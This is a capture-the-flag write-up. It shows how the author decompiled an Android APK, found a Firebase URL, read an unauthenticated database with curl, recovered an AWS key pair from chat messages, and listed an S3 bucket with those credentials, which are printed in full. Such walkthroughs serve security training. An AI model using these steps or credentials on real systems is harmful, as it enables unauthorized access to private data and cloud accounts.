 # parley

## Challenge

```
We found a discarded phone with a custom app on it. See what you can dig out of this.

Target: The name of the database backup file in the cloud storage.
```

## Walkthrough

The first step was to extract the APK. I used a popular tool called `apktool` to extract it.

```sh
$ apktool d HijackSparrow.apk
```

Once extracted I inspected the generated `apktool.yml` file to analyze meta information about the application.

```
$ cat apktool.yml
...
unknownFiles:
  firebase-analytics-ktx.properties: '8'
  firebase-analytics.properties: '8'
  firebase-annotations.properties: '8'
  firebase-appcheck-interop.properties: '8'
  firebase-auth-interop.properties: '8'
  firebase-auth-ktx.properties: '8'
  firebase-auth.properties: '8'
...
```

Upon inspection I found many references to firebase, prompting me to inspect further and try find the databases address.

```sh
$ grep -R "firebase" ./
...
res/values/strings.xml:    <string name="firebase_database_URL">https://galleychat-default-rtdb.firebaseio.com/</string>
...
```

Now that I'd determined the databases address it was time to inspect it. An easy way to check if firebase permissions are misconfigured to allow read access is to `GET /.json`, if you get anything back than there're permissions issues and you can inspect further with other tooling.

```sh
$ curl https://galleychat-default-rtdb.firebaseio.com/.json | jq
...
{
  "chats": {
    ...
    "IWG0X15CB6VHu8B5T39bPU52kOu2PqPJo8r5XMcd6BCiqg3laH5JTL62": {
        "messages": {
        ...
        "-MqgkS_COYVcgOcEgKE7": {
          "message": "Need your help though, boss needs me to wipe data, what's the access info for the s3 bucket? I swear my brains have been chewed out by the garra rufa, need to act quick.",
          "senderId": "IWG0X15CB6VHu8B5T39bPU52kOu2"
        },
        "-MqglqoQIhth_4Z91Dia": {
          "message": "alright Dory, I got your back. ID: AKIASXOIOIIYVBOHNQ75",
          "senderId": "PqPJo8r5XMcd6BCiqg3laH5JTL62"
        },
        "-MqgmDV96k7e0cJU5iFv": {
          "message": "secret: ld8oygSYdQjAbTEtAHv7RG7B7o2dZrXjJsqjrdYO",
          "senderId": "PqPJo8r5XMcd6BCiqg3laH5JTL62"
        },
        ...
      }
    },
    "IWG0X15CB6VHu8B5T39bPU52kOu2pienkZrKUIOskcIAJpBQARcxV3l1": {
      "messages": {
        ...
        "-MqSYk_Gy_3JWtf06ilr": {
          "message": "Leave nothing behind. Delete all traces watch the logs in s3 chat-westoleashiplul",
          "senderId": "pienkZrKUIOskcIAJpBQARcxV3l1"
        },
        ...
      }
    },
    ...
  },
  "user": {
    ...
  }
}
```

Read permissions were incorrectly configured such that I could read the chats and user info. I summed up the important info to figure out the next step.

```
ID        AKIASXOIOIIYVBOHNQ75
Secret    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
S3 bucket chat-westoleashiplul
```

From here it was obvious that the next step was to read the S3 bucket and we had everything we needed. Using the AWS CLI I listed the files in the S3 bucket.

```sh
$ aws configure
AWS Access Key ID: AKIASXOIOIIYVBOHNQ75
AWS Secret Access Key: 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
Default region name [None]: 
Default output format [None]:

$ aws s3 ls s3://chat-westoleashiplul
2021-12-11 23:25:47       4151 backup-Ducky2-Corned-Latter.enc.gz
```

That looks like what we want!

# Solve

filename: `backup-Ducky2-Corned-Latter.enc.gz`
